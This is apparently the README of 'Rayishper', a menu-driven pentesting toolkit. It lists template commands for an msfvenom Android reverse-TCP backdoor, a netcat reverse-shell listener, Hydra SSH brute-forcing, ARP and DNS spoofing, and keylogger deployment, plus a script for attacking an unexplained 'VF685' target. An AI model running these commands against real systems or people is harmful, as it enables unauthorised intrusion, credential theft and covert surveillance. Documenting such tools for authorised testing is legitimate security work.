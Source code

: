 # Rayishper Pentesting Toolkit

Rayishper is a customizable and automated toolkit designed for cybersecurity enthusiasts and professionals. Originally inspired by manual note-taking on cybersecurity tasks, Rayishper automates a variety of common pentesting activities to streamline your workflow.

## Table of Contents

- [Introduction](#introduction)
- [Features](#features)
- [Installation](#installation)
- [Dependencies](#dependencies)
- [Usage](#usage)
- [Commands Overview](#commands-overview)
- [License](#license)

## Introduction

Rayishper started as a simple note-taking practice to assist with various cybersecurity tasks. It has now evolved into an automated toolkit that can perform a wide range of pentesting activities such as password cracking, network sniffing, social engineering, and more.

## Features

- **Password Cracking:** Automate brute-force attacks using tools like John the Ripper and aircrack-ng.
- **Network Attacks:** Perform ARP spoofing, DNS spoofing, port scanning, and packet sniffing.
- **Payload Generation:** Create custom payloads for Android devices using Metasploit.
- **Social Engineering:** Launch social engineering attacks using the SET toolkit.
- **File and Directory Management:** Automate common file and directory operations like viewing, deleting, and scanning.
- **Script Automation:** Convert repetitive manual tasks into automated scripts.

## Installation

## Clone the Rayishper repository:

```bash
git clone https://github.com/your-repo/rayishper.git
```
```bash
cd rayishper
```

## Make the script executable:
chmod +x rayishper.py

## Install the required dependencies:
sudo apt-get update
sudo apt-get install python3 python3-pip metasploit-framework nmap hydra tcpdump aircrack-ng john setoolkit
Ensure that all tools used in the script are correctly installed and accessible in your PATH.

## Dependencies: 
The Rayishper script relies on the following tools and libraries:

Python 3: The core programming language used in the script.
Metasploit-Framework: For payload generation, reverse shell listeners, and exploitation.
nmap: For network scanning and discovery.
Hydra: For brute-forcing SSH logins.
Tcpdump: For packet sniffing and network analysis.
Aircrack-ng: For wireless network cracking.
John-the-Ripper: For password cracking.
Social-Engineering-Toolkit-(SET): For social engineering attacks.

## Usage
## To run Rayishper:
./rayishper.py

## Main Menu
When you start the script, you'll be prompted with the following options:

Hello Neo, what's the magic word?: Type "red pill" to access the main menu.
Main Menu Options: Choose from various pentesting actions such as deploying keyloggers, scanning networks, or generating payloads.
Commands Overview
Below is a summary of the main commands used within Rayishper:

## VF685 Hack
Description: Automate hacking a specific VF685 target.
Command: python3 VF685.py

## Keylogger Deployment
Description: Start a keylogger that logs keystrokes to a file.
Command: python3 keylog.py

## Payload Creation
Description: Generate a custom Android payload using Metasploit.
Command: msfvenom -p android/meterpreter/reverse_tcp LHOST={lhost} LPORT={lport} R> {location}/{Backdoor_name}

## SSH Brute-Force
Description: Perform a brute-force attack on SSH login.
Command: hydra -l {username} -P {wordlist} ssh://{target_ip}

## Network Scanning
Description: Scan a target IP for open ports and services.
Command: nmap -sV {target_ip}

## ARP Spoofing
Description: Perform ARP spoofing to intercept traffic.
Command: sudo arpspoof -i eth0 -t {target_ip} -r {gateway_ip}

## Reverse Shell Listener
Description: Start a netcat listener for reverse shells.
Command: nc -lvnp {lport}

## DNS Spoofing
Description: Spoof DNS responses on a network.
Command: sudo dnsspoof

## License
This project is open-source and available under the MIT License.
